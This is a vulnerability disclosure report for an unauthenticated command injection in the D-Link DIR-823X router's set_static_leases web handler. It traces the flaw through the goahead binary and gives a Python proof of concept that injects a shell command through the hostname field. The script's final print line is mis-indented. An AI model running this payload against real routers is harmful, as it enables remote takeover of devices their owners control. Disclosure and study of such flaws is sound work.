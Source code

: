 ## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## Basic Information

Vulnerability Vendor: D-Link Technology Co., Ltd.

Official Website: https://www.dlink.com.cn/

Affected Device Type: Routers

Affected Product: DIR-823X

Affected Product Version: <= V250416



## Vulnerability Overview

The latest version 250416 (250416) of the D-LINK DIR-823X router contains an unauthorized command execution vulnerability. The vulnerability resides in the /usr/sbin/goahead file. Accessing the router's /goform/set_static_leases function and requesting specific fields allows arbitrary command execution without authentication, enabling remote command execution and even shell access.

Download the latest firmware from the official website. [D-Link Technical Support](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823X)
Locate the /usr/sbin/goahead file and find the function request entry.

![](img/0.png)

![](img/1.png)

Here we can see that the above values are taken and then processed by the sub_415028 function to continue tracking.

![](img/2.png)

Found that the command was finally spliced in

![](img/3.png)

![](img/4.png)

Previously, there was a filter for dangerous characters, but it wasn't completely strict, allowing for command injection.

Access testing revealed normal access without requiring a login.

![](img/5.png)

Try to execute the command to create a file and find that it is successfully executed

![](img/6.png)



## POC

```python
# !/usr/bin/env python3
import requests


TARGET_URL = "http://192.168.122.150/goform/set_static_leases"


reverse_shell_cmd = '" |ls > 1.txt"'


try:
    response = requests.post(
        TARGET_URL,
        data={"hostname": reverse_shell_cmd,"modmun":"1","ipaddr":"192.168.122.150","macaddr":"99"},
        timeout=10
    )
    print(f"请求发送成功，状态码: {response.status_code}")
    print(f"响应内容: {response.text}")

except requests.exceptions.RequestException as e:
print(f"请求失败: {e}")
```

![](img/7.png)

## Vulnerability Impact

An attacker could exploit this vulnerability to execute unauthorized commands and escalate privileges.

## Remediation Solution

Contact the vendor to obtain the security patch and implement a timely vulnerability fix.